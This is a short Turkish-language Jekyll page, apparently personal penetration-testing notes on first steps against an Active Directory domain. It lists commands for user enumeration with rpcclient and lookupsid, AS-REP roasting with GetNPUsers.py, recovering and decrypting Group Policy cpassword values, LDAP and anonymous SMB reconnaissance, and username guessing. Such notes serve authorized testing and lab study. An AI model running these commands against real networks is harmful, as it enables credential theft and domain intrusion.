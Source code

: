 ```yaml
---
layout: page
title: "Genellikle İlk Yapılacak İşlemler"
permalink: /linux/aga-ilk-giris/
---
```

kullanıcılar rpcclient ile girilip enumdomusers ile çekilir.

```bash
GetNPUsers.py -no-pass test.local/ -usersfile users.txt -dc-ip 10.X.X.X -request
```

Smb Dosyaları mget ile linux makineye çekildiğinde: 
```bash
find . -name "*.xml" -exec grep -i "cpassword" {} \; -print

Ardından:

gpp-decrypt.py "ŞİFRE"
```

Dns ile bulamadıysan DC'nin hostname'i 
```bash
ldapsearch -x -H ldap://IP -D "username@hostname" -w "Passwd123" -b "DC=test,DC=local" "(primaryGroupID=516)" dNSHostName sAMAccountName
```

username-anarchy ile domainde olabilecğeini düşündüğün kullanıcı kombinasyonlarını 
first, flast,first.last, firstl

LDAP 636 portu açıksa şöyle bir komut deneyebilirsin:
```bash
LDAPTLS_REQCERT=never ldapsearch -x -H "ldaps://10.x.x.x:636" -b "" -s base "(objectClass=*)" namingContexts
```

smbclient anonim loginlerinde:
```bash
smbclient -L //10.x.x.x -U "" -N
smbclient -L //10.x.x.x -N
```

Rpcclient ile enumdomusers çekemdiysen şöyle bir şey yapabilirsin:
```bash
lookupsid.py 'test.local/guest'@test.local -no-pass
```
